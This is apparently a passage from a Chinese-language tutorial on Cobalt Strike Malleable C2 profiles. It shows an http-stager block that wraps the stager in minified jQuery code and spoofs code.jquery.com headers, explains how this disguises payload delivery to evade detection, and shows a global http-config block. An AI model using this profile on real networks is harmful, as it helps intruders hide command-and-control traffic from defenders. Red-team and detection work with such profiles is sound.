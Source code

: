 ```apl
            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;
        }
    }

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
    }
}
```

`set uri_x86 "/jquery-3.3.1.slim.min.js";` 和 `set uri_x64 "/jquery-3.3.2.slim.min.js";`: 这两行设置了32位和64位stager在HTTP请求中使用的URI。

`server` 部分设置了C2服务器在HTTP响应中使用的参数。

- `header` 关键字设置了响应头的参数。例如`header "Server" "NetDNA-cache/2.2";` 设置了"Server"响应头为"NetDNA-cache/2.2"。
- `output` 部分设置了响应体的内容。`prepend` 和 `append` 分别添加了一些数据到响应体的开始和结束。在这种情况下，数据被设计成看起来像一个jQuery文件，这有助于掩盖stager的真实内容。

`client` 部分设置了stager在HTTP请求中使用的参数。

`header` 关键字设置了请求头的参数。例如，`header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";` 

总的来说，这段配置为Cobalt Strike设置了一个伪装成jQuery文件的HTTP载荷分发机制，有助于绕过某些安全检测



### http-config

http-config允许你定义http通信的全局特性，会影响所有HTTP响应

```
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=5, max=100";
    header "Connection" "Keep-Alive";
}
```
